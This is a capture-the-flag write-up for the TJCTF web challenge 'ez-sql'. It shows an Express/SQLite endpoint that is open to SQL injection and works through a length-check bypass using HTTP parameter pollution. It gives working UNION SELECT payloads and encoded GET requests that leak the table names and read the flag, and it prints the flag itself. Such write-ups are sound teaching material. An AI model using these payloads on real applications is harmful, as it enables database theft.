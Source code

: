 # ez-sql
Category: Web

## Description
just your average sql challenge, nothing else to see here (trust)

[Instancer](https://instancer.tjctf.org/challenge/ez-sql)

Attachments: [app.js](attachments/app.js)

## Write-up
When we access the provided URL, we are presented with the following page:

![](solution/image1.png)

Upon analyzing the source code, the `/search` endpoint catches our attention. It performs a validation check on the `name` query parameter before using it in a SQL `SELECT` query. This endpoint appears to be vulnerable to SQL injection through the `name` parameter, as there is no input sanitization present.

```
app.get('/search', (req, res) => {
    const { name } = req.query;

    if (!name) {
        return res.status(400).send({ err: 'Bad request' });
    }

    if (name.length > 6) {
        return res.status(400).send({ err: 'Bad request' });
    }

    db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows) => {
        if (err) {
            console.error(err.message);
            return res.status(500).send('Internal server error');
        }

        return res.send(rows);
    });
});
```

Furthermore, we need to utilize SQL injection to extract the flag, which was inserted into a separate flag table during the server initialization process.

```
const flagTable = `flag_${uuid.v4().replace(/-/g, '_')}`;
db.run(`CREATE TABLE IF NOT EXISTS ${flagTable} (flag TEXT)`);

db.run(`INSERT INTO ${flagTable} (flag) VALUES ('${flag}')`);
```

Since the flag table name is concatenated with a random value, we first need to leak the actual flag table name before we can query its contents. Considering that the database used is SQLite, we can employ the following SQL query to extract the database metadata, including table names.

```
%' UNION SELECT 1,sql FROM sqlite_master--
```

However, there is a length check for the `name` query parameter, which must be less than 6 characters. To bypass this limitation, we can employ HTTP parameter pollution by specifying the `name` parameter twice. By doing so, the backend will interpret our `name` parameter as an array instead of a string, resulting in `name.length == 2`. When this array is used in the SQL query, it will used the string representation which are the elements of the array joined by a comma (`,`).

Here's an example ExpressJS code snippet to demonstrate the behavior:

```
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  const { name } = req.query;
  if (name) {
    console.log(name)
    console.log(name.length)
    console.log(`${name}`)
  }
  res.send('Hello World!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

When we access `/?name=hello`, we get the following output:

```
5
hello
```

However, when we access `/?name=hello&name=world`, we get the following output:

```
2
hello,world
```

Therefore, we can use the following GET request to bypass the length check and retrieve the table names:

```
GET /search?name=%25%27%20UNION%20SELECT%201%2Csql%20FROM%20sqlite_master--&name=x
```

![](solution/image2.png)

From the retrieved table name, we can proceed to extract the contents of the table using:

```
%' UNION SELECT 1,flag FROM flag_766e7578_51ba_4adb_874a_38d332ff068f--
```

The corresponding GET request looks like this:

```
GET /search?name=%25%27%20UNION%20SELECT%201%2Cflag%20FROM%20flag_766e7578_51ba_4adb_874a_38d332ff068f--&name=x
```

![](solution/image3.png)

Flag: `tjctf{ezpz_l3mon_squ33zy_603f8e08}`
